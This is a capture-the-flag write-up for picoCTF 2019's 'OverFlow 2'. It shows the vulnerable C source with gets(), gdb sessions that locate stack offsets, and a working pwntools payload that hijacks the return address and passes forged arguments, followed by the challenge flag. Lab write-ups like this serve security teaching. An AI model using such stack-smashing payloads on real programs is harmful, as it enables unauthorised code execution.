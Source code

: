 # PicoCTF19 OverFlow 2

## Challenge

Now try overwriting arguments. Can you get the flag from this [program](https://2019shell1.picoctf.com/static/2b7b3583b687134589781c4e22ef5760/vuln)? You can find it in /problems/overflow-2 on the shell server. [Source](https://2019shell1.picoctf.com/static/2b7b3583b687134589781c4e22ef5760/vuln.c).

## Hints

GDB can print the stack after you send arguments

## Solution

Let's view that directory:

```bash
samson@pico-2019-shell1:/problems/overflow-2$ ls -al
total 92
drwxr-xr-x   2 root       root          4096 Sep 28 22:04 .
drwxr-x--x 684 root       root         69632 Oct 10 18:02 ..
-r--r-----   1 hacksports overflow-2_3    33 Sep 28 22:04 flag.txt
-rwxr-sr-x   1 hacksports overflow-2_3  7500 Sep 28 22:04 vuln
-rw-rw-r--   1 hacksports hacksports     794 Sep 28 22:04 vuln.c
```

Let's view `vuln.c`

```
samson@pico-2019-shell1:/problems/overflow-2$ cat vuln.c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFSIZE 176
#define FLAGSIZE 64

void flag(unsigned int arg1, unsigned int arg2) {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("Flag File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  if (arg1 != 0xDEADBEEF)
    return;
  if (arg2 != 0xC0DED00D)
    return;
  printf(buf);
}

void vuln(){
  char buf[BUFSIZE];
  gets(buf);
  puts(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  puts("Please enter your string: ");
  vuln();
  return 0;
}
```

It seems like a program that takes in some input and prints it back to you. Let's try that and some large input.

```bash
samson@pico-2019-shell1:/problems/overflow-2_3_051820c27c2e8c060021c0b9705ae446$ ./vuln
Please enter your string: 
A
A
samson@pico-2019-shell1:/problems/overflow-2_3_051820c27c2e8c060021c0b9705ae446$ echo $(python -c "print 'A'*184") | ./vuln
Please enter your string: 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Segmentation fault (core dumped)
```

We need to invoke the `flag()` function like `flag(0xDEADBEEF, 0xC0DED00D)` from `vuln()`

The hint suggests to look at the stack, so let's do that.

```bash
samson@pico-2019-shell1:/problems/overflow-2_3_051820c27c2e8c060021c0b9705ae446$ gdb ./vuln
... <redacted>
Reading symbols from ./vuln...(no debugging symbols found)...done.
(gdb) r
Starting program: /problems/overflow-2_3_051820c27c2e8c060021c0b9705ae446/vuln 
Please enter your string: 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Program received signal SIGSEGV, Segmentation fault.
0x0804872a in main ()
(gdb) info frame
Stack level 0, frame at 0x1:
 eip = 0x804872a in main; saved eip = <not saved>
 Outermost frame: Cannot access memory at address 0xfffffffd
 Arglist at 0x41414141, args: 
 Locals at 0x41414141, Previous frame's sp is 0x1
Cannot access memory at address 0xfffffffd
```

Notice how the `Arglist` is at `0x41414141`. Those are the `A`'s we passed in. So let's try a different string and see if we can figure out where in the list to enter our address and arguments.

Let's try 176 `A`'s followed by the rest of the alphabet to see what ends up at the arg list.

`AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZ`

```bash
samson@pico-2019-shell1:/problems/overflow-2_3_051820c27c2e8c060021c0b9705ae446$ gdb ./vuln
... <redacted>
Reading symbols from ./vuln...(no debugging symbols found)...done.
(gdb) r
Starting program: /problems/overflow-2_3_051820c27c2e8c060021c0b9705ae446/vuln 
Please enter your string: 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZ
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZ

Program received signal SIGSEGV, Segmentation fault.
0x45454545 in ?? ()
(gdb) bt
#0  0x45454545 in ?? ()
#1  0x46464646 in ?? ()
#2  0x47474747 in ?? ()
#3  0x48484848 in ?? ()
#4  0x49494949 in ?? ()
#5  0x4a4a4a4a in ?? ()
#6  0x4b4b4b4b in ?? ()
#7  0x4c4c4c4c in ?? ()
#8  0x4d4d4d4d in ?? ()
#9  0x4e4e4e4e in ?? ()
#10 0x4f4f4f4f in ?? ()
#11 0x50505050 in ?? ()
#12 0x51515151 in ?? ()
#13 0x52525252 in ?? ()
#14 0x53535353 in ?? ()
#15 0x54545454 in ?? ()
#16 0x55555555 in ?? ()
#17 0x56565656 in ?? ()
#18 0x57575757 in ?? ()
#19 0x58585858 in ?? ()
#20 0x59595959 in ?? ()
#21 0x5a5a5a5a in ?? ()
#22 0x00000000 in ?? ()
(gdb) info frame
Stack level 0, frame at 0xffada8e4:
 eip = 0x45454545; saved eip = 0x46464646
 called by frame at 0xffada8e8
 Arglist at 0xffada8dc, args: 
 Locals at 0xffada8dc, Previous frame's sp is 0xffada8e4
 Saved registers:
  eip at 0xffada8e0
```

```bash
(gdb) disas flag
Dump of assembler code for function flag:
   0x080485e6 <+0>:     push   %ebp
... <redacted>
   0x0804864a <+100>:   cmpl   $0xdeadbeef,0x8(%ebp)
   0x08048651 <+107>:   jne    0x804866d <flag+135>
   0x08048653 <+109>:   cmpl   $0xc0ded00d,0xc(%ebp)
   0x0804865a <+116>:   jne    0x8048670 <flag+138>
... <redacted>
   0x08048675 <+143>:   ret    
End of assembler dump.
```

Intersting, we saw that it stopped at `0x45454545` which are the `DDDD`. So now we have 176 `A`'s, 12 bytes, `FLAG_ADDRESS`. So we could use:

```bash
python -c "from pwn import *; print 'A'*176+'B'*12+p32(0x080485e6)" | ./vuln
```

Now the arguments `arg1` and `arg2` won't be far past the `FLAG_ADDRESS`. Let's determine where it needs to go.

```bash
samson@pico-2019-shell1:/problems/overflow-2_3_051820c27c2e8c060021c0b9705ae446$ python -c "from pwn import *; print 'A'*176+'B'*12+p32(0x080485E6)+'AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHH'" > /tmp/in
samson@pico-2019-shell1:/problems/overflow-2_3_051820c27c2e8c060021c0b9705ae446$ gdb ./vuln
... <redacted>
Reading symbols from ./vuln...(no debugging symbols found)...done.
(gdb) r < /tmp/in
Starting program: /problems/overflow-2_3_051820c27c2e8c060021c0b9705ae446/vuln < /tmp/in
Please enter your string: 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBAAAABBBBCCCCDDDDEEEEFFFFGGGGHHHH
Flag File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.
[Inferior 1 (process 2734491) exited normally]
```

The program doesn't work because gdb isn't running under the same permissions. I'll copy the files over to another directory and attempt it

```bash
samson@pico-2019-shell1:/problems/overflow-2_3_051820c27c2e8c060021c0b9705ae446$ mkdir /tmp/s5
samson@pico-2019-shell1:/problems/overflow-2_3_051820c27c2e8c060021c0b9705ae446$ cp vuln /tmp/s5/vuln
samson@pico-2019-shell1:/problems/overflow-2_3_051820c27c2e8c060021c0b9705ae446$ vi /tmp/s5/flag.txt
samson@pico-2019-shell1:/problems/overflow-2_3_051820c27c2e8c060021c0b9705ae446$ cat /tmp/s5/flag.txt
SAMCTF{123123123123123}
samson@pico-2019-shell1:/problems/overflow-2_3_051820c27c2e8c060021c0b9705ae446$ pushd . && cd /tmp/s5
samson@pico-2019-shell1:/tmp/s5$ gdb ./vuln
... <redacted>
Reading symbols from ./vuln...(no debugging symbols found)...done.
(gdb) b *flag
Breakpoint 1 at 0x80485e6
(gdb) b *flag+97
Breakpoint 2 at 0x8048647
(gdb) r < /tmp/in
Starting program: /tmp/s5/vuln < /tmp/in
Please enter your string: 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBAAAABBBBCCCCDDDDEEEEFFFFGGGGHHHH

Breakpoint 1, 0x080485e6 in flag ()
(gdb) c
Continuing.

Breakpoint 2, 0x08048647 in flag ()
(gdb) info stack
#0  0x08048647 in flag ()
#1  0x41414141 in ?? ()
#2  0x42424242 in ?? ()
#3  0x43434343 in ?? ()
#4  0x44444444 in ?? ()
#5  0x45454545 in ?? ()
#6  0x46464646 in ?? ()
#7  0x47474747 in ?? ()
#8  0x48484848 in ?? ()
#9  0xf7fbe000 in ?? () from /lib32/libc.so.6
Backtrace stopped: previous frame inner to this frame (corrupt stack?)
(gdb) x $ebp
0xffffd5ac:     0x42424242
```

There it is. `ebp` is the first argument and from this [stackoverflow post](https://stackoverflow.com/questions/42771550/why-does-first-parameter-in-x86-assembly-starts-from-offset-8)
We know the arguments are just 4 places off the flag adddress.

```bash
samson@pico-2019-shell1:/tmp/s5$ popd
/problems/overflow-2_3_051820c27c2e8c060021c0b9705ae446
samson@pico-2019-shell1:/problems/overflow-2_3_051820c27c2e8c060021c0b9705ae446$ python -c "from pwn import *; print 'A'*176+'B'*12+p32(0x080485E6)+'A'*4+p32(0xDEADBEEF)+p32(0xC0DED00D)" | ./vuln 
Please enter your string: 
���AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAﾭ�
picoCTF{arg5_and_r3turn51b106031}Segmentation fault (core dumped)
```

## Flag

`picoCTF{arg5_and_r3turn51b106031}`
